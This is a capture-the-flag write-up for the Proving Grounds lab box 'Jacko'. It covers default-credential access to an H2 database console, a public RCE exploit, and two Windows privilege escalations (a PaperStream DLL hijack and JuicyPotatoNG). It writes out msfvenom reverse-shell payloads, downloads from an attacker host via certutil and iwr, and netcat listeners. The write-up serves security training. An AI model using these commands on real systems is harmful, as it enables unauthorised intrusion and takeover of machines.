# Jacko -- Proving Grounds (write-up)

**Difficulty:** Intermediate
**Box:** Jacko (Proving Grounds)
**Author:** dkrxhn
**Date:** 2025-09-27

---

## TL;DR

### H2 database console with default creds and RCE exploit. SeImpersonatePrivilege -> two paths: PaperStream IP DLL hijack or JuicyPotatoNG.
---
## Target info

- Host: `192.168.199.66`
- Services discovered: `80/tcp (http)`, `8082/tcp (H2 database)`
---
## Enumeration

```bash
sudo nmap -Pn -n 192.168.199.66 -sCV -p- --open -vvv
```





---
## Initial access

Port 8082 -- H2 database console with default creds `SA:''` (empty password):



SA is admin, version is 1.4.199. Used [EDB-49384](https://www.exploit-db.com/exploits/49384):



Got shell as `jacko\tony`:



Confirmed x64:


SeImpersonatePrivilege enabled:



---
## Shell upgrade

Generated reverse shell and transferred:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.208 LPORT=135 -f exe > revshell.exe
```

```
certutil -split -urlcache -f http://192.168.45.208/revshell.exe C:\Users\tony\revshell.exe
```

```bash
sudo rlwrap nc -lvnp 135
```



Had to fix PATH first:

```
set PATH=%SystemRoot%\system32;%SystemRoot%;
```



---
## Privilege escalation

### Path 1: PaperStream IP DLL hijack







Generated malicious DLL:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.208 LPORT=8082 -f dll > exploit.dll
```

Transferred and ran the exploit:

```powershell
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ep bypass
iwr -uri http://192.168.45.208/49382.ps1 -o C:\temp\49382.ps1
iwr -uri http://192.168.45.208/exploit.dll -o C:\temp\exploit.dll
.\49382.ps1
```

```bash
sudo nc -lvnp 8082
```

Root shell.

### Path 2: JuicyPotatoNG

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.208 LPORT=8082 -f exe > shell.exe
```

```powershell
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ep bypass
iwr -uri http://192.168.45.208/shell.exe -o C:\temp\shell.exe
iwr -uri http://192.168.45.208/JuicyPotatoNG.exe -o C:\temp\JuicyPotatoNG.exe
.\JuicyPotatoNG.exe -t * -p shell.exe
```

```bash
sudo nc -lvnp 8082
```

Root shell. Both methods work. Use `iwr` instead of `certutil` for file transfers.

---
## Lessons & takeaways

- H2 database consoles often have default creds (SA with empty password)
- When PATH is broken, set it manually: `set PATH=%SystemRoot%\system32;%SystemRoot%;`
- SeImpersonatePrivilege opens multiple paths: DLL hijack or potato attacks
- Use `iwr` (PowerShell) over `certutil` when certutil is unreliable
---
